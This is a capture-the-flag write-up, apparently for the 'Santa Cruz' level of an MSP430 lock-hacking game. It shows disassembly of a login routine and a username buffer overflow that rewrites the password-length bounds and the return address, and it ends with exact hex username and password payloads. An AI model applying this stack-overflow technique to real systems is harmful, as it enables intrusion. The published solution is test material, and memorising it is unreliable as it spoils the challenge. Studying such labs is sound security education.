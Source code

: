 # Santa Cruz

**Date Completed:** 10/26/2025

Reading through the `login` method we see that the user is now prompted two inputs:

- username
- password

It look like for both the username and the password inputs, the program allows an input that is up to 0x63 (99) bytes long. The user input goes into memory buffer 0x2404, and then is copied to the stack via `strcpy` call, so we have two chances of manipulating the stack to our liking (to be seen if this is the approach we need to take).

Taking a look at the stack right after the second `strcpy` call this is what it looks like:

```asm
> r sp 64
43a0 0000 7573 6572 6e61 6d65 0000 0000 0000  ..username......
43b0 0000 0008 1070 6173 7377 6f72 6400 0000  .....password...
43c0 0000 0000 0000 0000 0000 0000 4044 0000  ............@D..
43d0 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

We see where the username is copied at address `43a2`, the password at address `43b5`, and the return address for `login` is stored in address `43cc`.
We also see `0x08` and `0x10` at addresses `43b3` and `43b4` respectively (which I think are meant to encode the min and max lengths for the username and password).

After the `strcpy` calls we have:

```asm
45d0:  0f4b           mov	r11, r15
45d2:  0e44           mov	r4, r14
45d4:  3e50 e8ff      add	#0xffe8, r14
45d8:  1e53           inc	r14
45da:  ce93 0000      tst.b	0x0(r14)
45de:  fc23           jnz	$-0x6 <login+0x88>
45e0:  0b4e           mov	r14, r11
45e2:  0b8f           sub	r15, r11
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15
45e8:  8f11           sxt	r15
45ea:  0b9f           cmp	r15, r11
45ec:  0628           jnc	$+0xe <login+0xaa>
```

Which can be broken up into the following parts:

- first there is a loop to find the first `0x00` at the end of the password input
- then there is a subtraction to calculate the password length
- then `0x10` byte (at `-0x18(r4)`) is loaded to `r15` and a comparison is made
- the `cmp` instruction subtracts `r15` (i.e. 16) from the length of the password and sets the `sr` register

This means that if the password length is less than 16, the `jnc` branch is taken. If the password length is greater than 16, the `jnc` branch is not taken and the `__stop_progExec__` method is called.

Similarly there is a check against 0x8.

So all in all, the program checks that the password is between 8 and 16 bytes.

What is interesting here is that the 0x8 and 0x10 bytes that dictate the valid length of the password are between the username and password on the stack. So I should be able to overflow the username (for which there is no length check) to change the length check.

Here I am going to change the bounds of the password to be between 8 and 32 bytes, and continue overflowing until I can rewrite the return address for the login method.

Username:  
`<17 bytes of random data> + 08 20 + <23 bytes of random data> + <address to unlock> + <null byte>`  

`aabbaabbaabbaabbaabbaabbaabbaabbaa 08 20 aabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaa 4a44 00`  

`aabbaabbaabbaabbaabbaabbaabbaabbaa0820aabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaa4a4400`

Continuing to inspect the code, towards the end of the `<login>` method there is a check that `r4-6 == 0x00`:

```asm
464c:  c493 faff      tst.b	-0x6(r4)
4650:  0624           jz	$+0xe <login+0x10e>
```

In order for this jump to be taken we need the password to be 17-bytes long so that the null-termination goes in the right memory address for the jump to be taken.

Password:  
`<17 bytes or random data>`  
`55aa55aa55aa55aa55aa55aa55aa55aa55`

```sh
> r sp 48
43a0 0000 aabb aabb aabb aabb aabb aabb aabb  ................
43b0 aabb aa08 2055 aa55 aa55 aa55 aa55 aa55  .... U.U.U.U.U.U
43c0 aa55 aa55 aa55 00aa bbaa bbaa 4a44 0000  .U.U.U......JD..
```

**Solution (in HEX):**  

- **Username: `aabbaabbaabbaabbaabbaabbaabbaabbaa0820aabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaa4a4400`.**
- **Password: `55aa55aa55aa55aa55aa55aa55aa55aa55`**

```sh
> solve
aabbaabbaabbaabbaabbaabbaabbaabbaa0820aabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaabbaa4a4400
55aa55aa55aa55aa55aa55aa55aa55aa55
```
